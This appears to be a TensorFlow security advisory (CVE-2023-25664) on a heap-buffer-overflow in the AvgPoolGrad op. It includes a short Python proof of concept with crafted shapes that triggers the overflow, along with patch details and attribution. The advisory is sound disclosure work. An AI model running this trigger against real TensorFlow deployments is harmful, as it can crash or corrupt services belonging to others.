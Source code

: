 ## TFSA-2023-010: Heap-buffer-overflow in AvgPoolGrad  

### CVE Number
CVE-2023-25664

### Impact
```python
import os
os.environ['TF_ENABLE_ONEDNN_OPTS'] = '0'
import tensorflow as tf
print(tf.__version__)
with tf.device("CPU"):
    ksize = [1, 40, 128, 1]
    strides = [1, 128, 128, 30]
    padding = "SAME"
    data_format = "NHWC"
    orig_input_shape = [11, 9, 78, 9]
    grad = tf.saturate_cast(tf.random.uniform([16, 16, 16, 16], minval=-128, maxval=129, dtype=tf.int64), dtype=tf.float32)
    res = tf.raw_ops.AvgPoolGrad(
        ksize=ksize,
        strides=strides,
        padding=padding,
        data_format=data_format,
        orig_input_shape=orig_input_shape,
        grad=grad,
    )
```

### Patches
We have patched the issue in GitHub commit [ddaac2bdd099bec5d7923dea45276a7558217e5b](https://github.com/tensorflow/tensorflow/commit/ddaac2bdd099bec5d7923dea45276a7558217e5b).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by <evn@google.com>
